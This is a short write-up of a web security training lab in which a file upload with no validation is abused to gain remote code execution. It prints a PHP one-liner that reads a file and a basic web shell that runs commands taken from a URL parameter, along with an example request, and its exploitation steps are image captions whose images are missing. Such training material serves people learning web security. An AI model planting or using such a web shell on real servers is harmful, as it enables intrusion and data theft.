





# Remote code execution via web shell upload
# Objective
This lab contains a vulnerable image upload function. It doesn't perform any validation on the files users upload before storing them on the server's filesystem.\
\
To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.\
\
You can log in to your own account using the following credentials: `wiener:peter`
# Solution
## Analysis
### PHP basic one-liners
```php
<?php echo file_get_contents('/path/to/target/file'); ?>

<?php echo system($_GET['command']); ?>
GET /example/exploit.php?command=whoami HTTP/1.1
```

### Upload request example
||
|:--:| 
| *Test* |

## Exploitation
||
|:--:| 
| *PHP code* |
||
| *Successful PHP payload upload* |
||
| *Path to uploaded file* |
||
| *Triggering uploaded PHP file* |
